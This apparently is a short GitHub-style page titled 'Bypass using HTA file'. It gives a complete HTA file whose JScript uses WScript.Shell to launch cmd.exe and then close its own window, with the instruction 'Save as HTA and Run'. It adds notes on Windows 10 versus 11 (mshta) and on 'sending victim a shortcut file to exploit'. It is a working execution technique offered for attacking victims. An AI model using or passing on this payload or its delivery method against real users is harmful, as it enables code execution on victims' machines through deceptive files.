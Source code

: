 Bypass using HTA file
Save as HTA and Run
```
<html> 
<head> 
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
</script>
</head> 
<body>
<script language="JScript">
self.close();
</script>
</body> 
</html>

```

Window 10 and Window 11 differences. No need to use mhsta in window 11
<img width="1278" height="793" alt="image" src="https://github.com/user-attachments/assets/4e35a704-38d2-4a75-b668-54628bfe2520" />

Sending victim a shortcut file to exploit
<img width="1087" height="741" alt="image" src="https://github.com/user-attachments/assets/86b668ae-4981-4812-9fe2-ced849485589" />
